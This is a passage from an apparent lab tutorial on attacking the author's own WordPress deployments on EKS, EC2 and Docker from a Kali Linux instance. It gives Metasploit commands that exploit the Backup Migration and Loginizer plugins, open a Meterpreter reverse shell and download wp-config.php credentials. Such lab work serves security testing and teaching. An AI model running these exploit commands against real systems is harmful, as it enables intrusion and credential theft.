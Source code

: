 ## Attack the Wordpress Application from Kali Linux

The following section describes using the [Metasploit Framework](https://www.metasploit.com/)
to exploit vulnerabilities in the [WordPress Backup Migration Plugin](https://wordpress.org/plugins/backup-backup/)
and [Loginizer](https://wordpress.org/plugins/loginizer/) plugins.

Allow your user to connect to the Kali Linux instance using SSH and then
install Metasploit:

```bash
AWS_EC2_KALI_LINUX_PUBLIC_IP=$(aws ec2 describe-instances --filters "Name=tag:Solution,Values=${SOLUTION_KALI}" --query "Reservations[].Instances[].PublicIpAddress" --output text)
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" 'curl -Ls https://github.com/ruzickap.keys >> ~/.ssh/authorized_keys'
scp -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}:~"
ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" << EOF
touch ~/.hushlogin
sudo snap install metasploit-framework
msfdb init
EOF
```

Run the Metasploit Framework and exploit the vulnerability in all three
environments (EKS, a standalone EC2 instance, and EC2 with Docker):

```bash
# shellcheck disable=SC2087
for PUBLIC_IP in ${K8S_WORDPRESS_SERVICE} ${AWS_EC2_PUBLIC_IP} ${AWS_EC2_CONTAINER_PUBLIC_IP}; do
  echo "*** ${PUBLIC_IP}"
  ssh -i "${TMP_DIR}/${AWS_EC2_KEY_PAIR_NAME}.pem" -o StrictHostKeyChecking=no "kali@${AWS_EC2_KALI_LINUX_PUBLIC_IP}" << EOF2
cat << EOF | msfconsole --quiet --resource -
use exploit/multi/http/wp_backup_migration_php_filter
set rhost ${PUBLIC_IP}
set lhost ${AWS_EC2_KALI_LINUX_PUBLIC_IP}
set lport 443
run --no-interact
sessions --interact 1 --meterpreter-command ps --meterpreter-command sysinfo \
  --meterpreter-command "download /bitnami/wordpress/wp-config.php"
use auxiliary/scanner/http/wp_loginizer_log_sqli
set rhost ${PUBLIC_IP}
set verbose true
run
exit -y
EOF
EOF2
done
```

The output below was condensed to display only the attack against WordPress on
Amazon EKS:
